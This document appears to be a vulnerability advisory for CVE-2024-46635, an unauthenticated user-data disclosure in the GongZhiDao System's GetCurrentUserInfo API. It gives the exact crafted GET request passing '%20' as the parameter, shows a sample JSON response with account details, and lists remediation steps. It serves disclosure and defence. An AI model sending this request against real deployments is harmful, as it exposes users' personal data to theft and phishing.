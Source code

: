 # CVE-2024-46635

## Background

The GongZhiDao System is a platform developed by GongZhiDao. It provides enterprise solutions including user management, data analysis, and operational functionalities. However, a security vulnerability was discovered in one of the API endpoints that could potentially lead to the exposure of sensitive user information without proper authorization.

## Vulnerability Description

A vulnerability exists in the `/oaa/api/AccountMaster/GetCurrentUserInfo` API endpoint of the GongZhiDao System. By passing `%20` (a URL-encoded space) in place of the `UserNameOrPhoneNumber` parameter, the API responds with sensitive user information, including account ID, username, and email address, even without proper authentication or authorization. This improper input validation allows attackers to gain unauthorized access to sensitive data.

## Impact

Successful exploitation of this vulnerability could lead to the exposure of sensitive user data, including:

- Account ID
- Username
- Email address
- Phone number (if present)
- Other personal information

An attacker could use this information to carry out further attacks, such as identity theft or phishing.

## Attack Vector

To exploit the vulnerability, an attacker must send a crafted HTTP GET request to the vulnerable API endpoint:

```http
GET /oaa/api/AccountMaster/GetCurrentUserInfo?UserNameOrPhoneNumber=%20 HTTP/2
```

This request returns a 200 OK response with sensitive user data in JSON format:

```http
HTTP/2 200 OK
Date: Tue, 10 Sep 2024 03:25:09 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 153
Server: nginx/1.22.0
X-Powered-By: ASP.NET
Set-Cookie: Path=/; HttpOnly; Secure

{"accountId":"09c05434-e1ff-4436-b1b0-01215e48b274","name":"John","phoneNumber":null,"userName":"19999999999","email1":"test@yourdomain.com"}
```


## Technical Details

- **Affected Endpoint**: `/oaa/api/AccountMaster/GetCurrentUserInfo`
- **Method**: HTTP GET
- **Parameters**: `UserNameOrPhoneNumber` with `%20` as the input
- **Response**: The API returns sensitive user data in JSON format without proper input validation or authorization.
- **Vulnerability Type**: Improper Input Validation / Sensitive Information Disclosure

## Remediation Recommendations

1. **Implement proper input validation**: Ensure that the `UserNameOrPhoneNumber` parameter is properly sanitized and validated. Inputs such as `%20` should be rejected.

2. **Authorization checks**: Implement proper authorization mechanisms to ensure that only authenticated and authorized users can access sensitive information.

3. **Rate limiting and monitoring**: Apply rate limiting to API endpoints to prevent brute force or automated attacks, and monitor API activity for abnormal access patterns.

## Credits

This vulnerability was discovered by hithub.

## References

- [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)
